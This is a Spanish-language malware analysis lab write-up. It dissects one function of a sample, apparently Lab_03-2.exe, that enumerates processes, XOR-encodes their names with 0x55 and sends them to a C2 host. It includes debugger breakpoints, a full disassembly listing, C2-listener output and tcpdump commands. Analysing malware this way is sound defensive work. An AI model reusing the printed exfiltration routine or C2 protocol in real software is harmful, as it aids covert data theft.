








# FUN_00402310 - Opcode 7
Resumen de lo que hace FUN_00402310:
- Llama a CreateToolhelp32Snapshot para capturar una snapshot de los procesos.
- Itera sobre cada proceso (Process32First / Next).
- Toma el nombre del proceso (szExeFile), lo desofusca (XOR 0x55), y lo envía por socket.
- Al final, también decodifica y envía otro bloque de datos de 256 bytes (XOR 0x55).

El malware, al recibir el opcode 7, enviará al host C2, registros de 0x108 bytes por cada proceso: 0x100 bytes XOReados con 0x55 (nombre) + 8 bytes de “cola” (dos DWORD en LE). Después de cada envío espera un ACK de 2 bytes; si el host C2 responde b"ok" continúa con el siguiente proceso (si no, reenvía el mismo). Al terminar, manda un registro con cola[0] == 0 (sentinela de fin).
_______________________________________


## Listener en python para poder probar este opcode
[listener-opcode7](../analisis-dinamico/listener-opcode7.py)

Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode6.py
```


# Análisis dinámico de la FUN_00402310
## Snapshot de procesos
- BP: 00402326 call CreateToolhelp32Snapshot  
  Tras volver: `EAX = hSnap (handle ≠ INVALID_HANDLE_VALUE)`.
- BP: `00402343 call Process32First`  
  Tras volver: `EAX!=0` si hay al menos un proceso.  
  EBX se carga con el socket en 00402348.  

## Por cada proceso – copia del nombre a la pila (en claro)

- BP: 00402360 (inicio de iteración)
- BP: `00402388 mov ecx,[esp+0x128] / mov [esp+0x118],ecx` (justo tras la copia)  
  Miramos: `[ESP+0x18]` → Follow in Dump. Ahí queda el nombre del proceso en claro (copiado desde PROCESSENTRY32.szExeFile).  
- Creamos un Watch de byte ptr `[ESP+0x18]` para verlo cambiar.

## Ofuscación XOR del nombre (0x100 B)
- BP: 00402396 (antes de XOR) → vemos el nombre en claro en `[ESP+0x18]`.  
- BP: 004023A9 (fin del XOR) → ahora `[ESP+0x18]` está XOR 0x55.
  
  Este bloque de 0x100 B es lo que va en el payload del send.
  


## Primer send por proceso (0x108 B)

- BP: 004023B8 call ws2_32.send
  - Layout al entrar en send(s, buf, len, flags):
    - [esp] = s = socket (debería ser EBX).
    - [esp+4] = buf → puntero al bloque de 0x108 que empieza en la pila (normalmente apunta a ESP+0x1C).
    - [esp+8] = 0x108
    - [esp+10] = 0
  - Qué mirar en *[esp+4]:
    - 0x000–0x0FF: nombre XOReado (mismo contenido que [ESP+0x18] tras el XOR).
    - 0x100–0x107: cola de 8 B (dos DWORD LE). Aquí la función mete metadatos (p. ej., copia dwSize a [ESP+0x118]). Anótalos; el sentinela final usa 0 en el primero.

## ACK del C2 por cada proceso (2 B)
- BP: 004023C8 call ws2_32.recv  
  
  - Args esperados: `recv(s=EBX, buf=&[ESP+0x16], len=2, flags=0)`.
  - Tras volver: EAX = bytes recibidos (esperado 2).  
    Sigue *[ESP+?] (el buffer; en esta función suele ser [ESP+0x16]) → debería contener "ok".

- BP: 004023CF call FUN_0040296D
  
  - Esta subrutina valida el ACK (tipo strcmp("ok")).
  - Tras volver: si EAX != 0, repite el envío del mismo proceso (salto a 00402396).
    Con ok correcto, EAX == 0 y avanza a Process32Next.

## Siguiente proceso

-  BP: 004023E8 call Process32Next
  - EAX!=0 → hay más (salta a 00402360).
  - EAX==0 → termina la enumeración → cae al “epílogo” que envía el sentinela.

## Sentinela (fin de listado)

- BP: 004023F8 (pone a 0 un campo de la estructura en la pila).
- BP: 00402405 (XOR 0x55 sobre 0x100 B para el “nombre” vacío).
- BP: 00402425 call ws2_32.send
  - Repite el formato de 0x108 B pero con la cola ajustada para indicar fin (el primer DWORD de la cola a 0).
  - Analiza *[esp+4] igual que antes; confirma cola[0] == 0.


## En el host C2
```
remnux@remnux:~/Desktop$ sudo python3 listener.py 
[*] Escuchando en 0.0.0.0:443

[+] 2025-08-31 07:41:23 Conexión de 10.0.0.4:51232
[TX handshake 8B]
[RX 512 B] SYSINFO
[TX opcode=7 (0x104 B)]
[RX proc #000] name='[System Process]'  PID=0x00000000  extra=0x00000001
[RX proc #001] name='System'  PID=0x00000004  extra=0x00000001
[RX proc #002] name='Registry'  PID=0x0000006C  extra=0x00000001
[RX proc #003] name='smss.exe'  PID=0x00000154  extra=0x00000001
[RX proc #004] name='csrss.exe'  PID=0x000001B8  extra=0x00000001
[RX proc #005] name='csrss.exe'  PID=0x00000204  extra=0x00000001
[RX proc #006] name='wininit.exe'  PID=0x00000214  extra=0x00000001
[RX proc #007] name='winlogon.exe'  PID=0x0000024C  extra=0x00000001
[RX proc #008] name='services.exe'  PID=0x00000294  extra=0x00000001
[RX proc #009] name='lsass.exe'  PID=0x000002A8  extra=0x00000001
[RX proc #010] name='svchost.exe'  PID=0x00000328  extra=0x00000001
[RX proc #011] name='fontdrvhost.exe'  PID=0x00000344  extra=0x00000001
[RX proc #012] name='fontdrvhost.exe'  PID=0x0000034C  extra=0x00000001
[RX proc #013] name='svchost.exe'  PID=0x000003A8  extra=0x00000001
[RX proc #014] name='dwm.exe'  PID=0x000003F4  extra=0x00000001
[RX proc #015] name='svchost.exe'  PID=0x000002D0  extra=0x00000001
[RX proc #016] name='svchost.exe'  PID=0x00000414  extra=0x00000001
[RX proc #017] name='svchost.exe'  PID=0x00000434  extra=0x00000001
[RX proc #018] name='svchost.exe'  PID=0x000004E4  extra=0x00000001
[RX proc #019] name='svchost.exe'  PID=0x00000540  extra=0x00000001
[RX proc #020] name='VBoxService.exe'  PID=0x0000056C  extra=0x00000001
[RX proc #021] name='svchost.exe'  PID=0x000005B4  extra=0x00000001
[RX proc #022] name='svchost.exe'  PID=0x00000704  extra=0x00000001
[RX proc #023] name='svchost.exe'  PID=0x000007B0  extra=0x00000001
[RX proc #024] name='svchost.exe'  PID=0x000007DC  extra=0x00000001
[RX proc #025] name='svchost.exe'  PID=0x000007E4  extra=0x00000001
[RX proc #026] name='spoolsv.exe'  PID=0x00000718  extra=0x00000001
[RX proc #027] name='svchost.exe'  PID=0x00000824  extra=0x00000001
[RX proc #028] name='svchost.exe'  PID=0x000008EC  extra=0x00000001
[RX proc #029] name='OfficeClickToRun.exe'  PID=0x00000938  extra=0x00000001
[RX proc #030] name='svchost.exe'  PID=0x00000984  extra=0x00000001
[RX proc #031] name='svchost.exe'  PID=0x00000A38  extra=0x00000001
[RX proc #032] name='dllhost.exe'  PID=0x00000F8C  extra=0x00000001
[RX proc #033] name='sihost.exe'  PID=0x00000C88  extra=0x00000001
[RX proc #034] name='svchost.exe'  PID=0x00000AA8  extra=0x00000001
[RX proc #035] name='taskhostw.exe'  PID=0x00000D1C  extra=0x00000001
[RX proc #036] name='internet_detector.exe'  PID=0x00000DBC  extra=0x00000001
[RX proc #037] name='MicrosoftEdgeUpdate.exe'  PID=0x00000E0C  extra=0x00000001
[RX proc #038] name='ctfmon.exe'  PID=0x00000E78  extra=0x00000001
[RX proc #039] name='explorer.exe'  PID=0x000006A0  extra=0x00000001
[RX proc #040] name='svchost.exe'  PID=0x0000022C  extra=0x00000001
[RX proc #041] name='StartMenuExperienceHost.exe'  PID=0x00000CF0  extra=0x00000001
[RX proc #042] name='RuntimeBroker.exe'  PID=0x00000CB8  extra=0x00000001
[RX proc #043] name='SearchApp.exe'  PID=0x00000948  extra=0x00000001
[RX proc #044] name='RuntimeBroker.exe'  PID=0x00000CF4  extra=0x00000001
[RX proc #045] name='TextInputHost.exe'  PID=0x000010DC  extra=0x00000001
[RX proc #046] name='RuntimeBroker.exe'  PID=0x0000112C  extra=0x00000001
[RX proc #047] name='SearchIndexer.exe'  PID=0x000011F4  extra=0x00000001
[RX proc #048] name='internet_detector.exe'  PID=0x0000133C  extra=0x00000001
[RX proc #049] name='dllhost.exe'  PID=0x000010A0  extra=0x00000001
[RX proc #050] name='SecurityHealthSystray.exe'  PID=0x00000DDC  extra=0x00000001
[RX proc #051] name='SecurityHealthService.exe'  PID=0x00000D9C  extra=0x00000001
[RX proc #052] name='VBoxTray.exe'  PID=0x000012E8  extra=0x00000001
[RX proc #053] name='ZoomIt64.exe'  PID=0x000006F0  extra=0x00000001
[RX proc #054] name='svchost.exe'  PID=0x00000184  extra=0x00000001
[RX proc #055] name='SgrmBroker.exe'  PID=0x0000083C  extra=0x00000001
[RX proc #056] name='svchost.exe'  PID=0x000001A0  extra=0x00000001
[RX proc #057] name='x32dbg.exe'  PID=0x00000BE8  extra=0x00000001
[RX proc #058] name='cmd.exe'  PID=0x000009D0  extra=0x00000001
[RX proc #059] name='conhost.exe'  PID=0x000012B0  extra=0x00000001
[RX proc #060] name='svchost.exe'  PID=0x00000A78  extra=0x00000001
[RX proc #061] name='svchost.exe'  PID=0x00001338  extra=0x00000001
[RX proc #062] name='notepad.exe'  PID=0x0000099C  extra=0x00000001
[RX proc #063] name='Lab_03-2.exe'  PID=0x00000E48  extra=0x00000001
[RX proc #064] name='SearchProtocolHost.exe'  PID=0x00000C94  extra=0x00000001
[RX proc #065] name='SearchFilterHost.exe'  PID=0x00000484  extra=0x00000001
```

## Resumen BPs
```
bp 00402326
bp 00402343
bp 00402360
bp 00402388
bp 00402396
bp 004023A9
bp 004023B8
bp 004023C8
bp 004023CF
bp 004023E8
bp 004023F8
bp 00402405
bp 00402425
```
_______________________________________
# FUN_00402310 Decompilada
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_00402310(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[-0x128   local_128                               XREF[1]:     0040231b(W)  
                             FUN_00402310                                    XREF[1]:     FUN_004012f0:0040179c(c)  
        00402310 81 ec 38        SUB        ESP,0x238
                 02 00 00
        00402316 53              PUSH       EBX
        00402317 6a 00           PUSH       0x0
        00402319 6a 02           PUSH       0x2
        0040231b c7 84 24        MOV        dword ptr [ESP + local_128],0x128
                 1c 01 00 
                 00 28 01 
        00402326 e8 b1 05        CALL       KERNEL32.DLL::CreateToolhelp32Snapshot           undefined CreateToolhelp32Snapsh
                 00 00
        0040232b 8d 8c 24        LEA        ECX,[ESP + 0x114]
                 14 01 00 00
        00402332 89 44 24 08     MOV        dword ptr [ESP + 0x8],EAX
        00402336 51              PUSH       ECX
        00402337 50              PUSH       EAX
        00402338 c7 84 24        MOV        dword ptr [ESP + 0x118],0x1
                 18 01 00 
                 00 01 00 
        00402343 e8 8e 05        CALL       KERNEL32.DLL::Process32First                     undefined Process32First()
                 00 00
        00402348 8b 9c 24        MOV        EBX,dword ptr [ESP + 0x240]
                 40 02 00 00
        0040234f 85 c0           TEST       EAX,EAX
        00402351 0f 84 a1        JZ         LAB_004023f8
                 00 00 00
        00402357 55              PUSH       EBP
        00402358 8b 2d 40        MOV        EBP,dword ptr [->WS2_32.DLL::Ordinal_16]         = 80000010
                 91 40 00
        0040235e 56              PUSH       ESI
        0040235f 57              PUSH       EDI
                             LAB_00402360                                    XREF[1]:     004023ef(j)  
        00402360 8d bc 24        LEA        EDI,[ESP + 0x144]
                 44 01 00 00
        00402367 83 c9 ff        OR         ECX,0xffffffff
        0040236a 33 c0           XOR        EAX,EAX
        0040236c 8d 54 24 18     LEA        EDX,[ESP + 0x18]
        00402370 f2 ae           SCASB.RE   ES:EDI
        00402372 f7 d1           NOT        ECX
        00402374 2b f9           SUB        EDI,ECX
        00402376 8b c1           MOV        EAX,ECX
        00402378 8b f7           MOV        ESI,EDI
        0040237a 8b fa           MOV        EDI,EDX
        0040237c c1 e9 02        SHR        ECX,0x2
        0040237f f3 a5           MOVSD.REP  ES:EDI,ESI
        00402381 8b c8           MOV        ECX,EAX
        00402383 83 e1 03        AND        ECX,0x3
        00402386 f3 a4           MOVSB.REP  ES:EDI,ESI
        00402388 8b 8c 24        MOV        ECX,dword ptr [ESP + 0x128]
                 28 01 00 00
        0040238f 89 8c 24        MOV        dword ptr [ESP + 0x118],ECX
                 18 01 00 00
                             LAB_00402396                                    XREF[1]:     004023d9(j)  
        00402396 33 c0           XOR        EAX,EAX
                             LAB_00402398                                    XREF[1]:     004023a9(j)  
        00402398 8a 4c 04 18     MOV        CL,byte ptr [ESP + EAX*0x1 + 0x18]
        0040239c 80 f1 55        XOR        CL,0x55
        0040239f 88 4c 04 18     MOV        byte ptr [ESP + EAX*0x1 + 0x18],CL
        004023a3 40              INC        EAX
        004023a4 3d 00 01        CMP        EAX,0x100
                 00 00
        004023a9 7c ed           JL         LAB_00402398
        004023ab 6a 00           PUSH       0x0
        004023ad 8d 54 24 1c     LEA        EDX,[ESP + 0x1c]
        004023b1 68 08 01        PUSH       0x108
                 00 00
        004023b6 52              PUSH       EDX
        004023b7 53              PUSH       EBX
        004023b8 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004023be 6a 00           PUSH       0x0
        004023c0 8d 44 24 16     LEA        EAX,[ESP + 0x16]
        004023c4 6a 02           PUSH       0x2
        004023c6 50              PUSH       EAX
        004023c7 53              PUSH       EBX
        004023c8 ff d5           CALL       EBP=>WS2_32.DLL::Ordinal_16
        004023ca 8d 4c 24 12     LEA        ECX,[ESP + 0x12]
        004023ce 51              PUSH       ECX
        004023cf e8 99 05        CALL       FUN_0040296d                                     undefined FUN_0040296d(void * th
                 00 00
        004023d4 83 c4 04        ADD        ESP,0x4
        004023d7 85 c0           TEST       EAX,EAX
        004023d9 75 bb           JNZ        LAB_00402396
        004023db 8b 44 24 14     MOV        EAX,dword ptr [ESP + 0x14]
        004023df 8d 94 24        LEA        EDX,[ESP + 0x120]
                 20 01 00 00
        004023e6 52              PUSH       EDX
        004023e7 50              PUSH       EAX
        004023e8 e8 e3 04        CALL       KERNEL32.DLL::Process32Next                      undefined Process32Next()
                 00 00
        004023ed 85 c0           TEST       EAX,EAX
        004023ef 0f 85 6b        JNZ        LAB_00402360
                 ff ff ff
        004023f5 5f              POP        EDI
        004023f6 5e              POP        ESI
        004023f7 5d              POP        EBP
                             LAB_004023f8                                    XREF[1]:     00402351(j)  
        004023f8 c7 84 24        MOV        dword ptr [ESP + 0x110],0x0
                 10 01 00 
                 00 00 00 
        00402403 33 c0           XOR        EAX,EAX
                             LAB_00402405                                    XREF[1]:     00402416(j)  
        00402405 8a 4c 04 0c     MOV        CL,byte ptr [ESP + EAX*0x1 + 0xc]
        00402409 80 f1 55        XOR        CL,0x55
        0040240c 88 4c 04 0c     MOV        byte ptr [ESP + EAX*0x1 + 0xc],CL
        00402410 40              INC        EAX
        00402411 3d 00 01        CMP        EAX,0x100
                 00 00
        00402416 7c ed           JL         LAB_00402405
        00402418 6a 00           PUSH       0x0
        0040241a 8d 4c 24 10     LEA        ECX,[ESP + 0x10]
        0040241e 68 08 01        PUSH       0x108
                 00 00
        00402423 51              PUSH       ECX
        00402424 53              PUSH       EBX
        00402425 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        0040242b 5b              POP        EBX
        0040242c 81 c4 38        ADD        ESP,0x238
                 02 00 00
        00402432 c3              RET

```
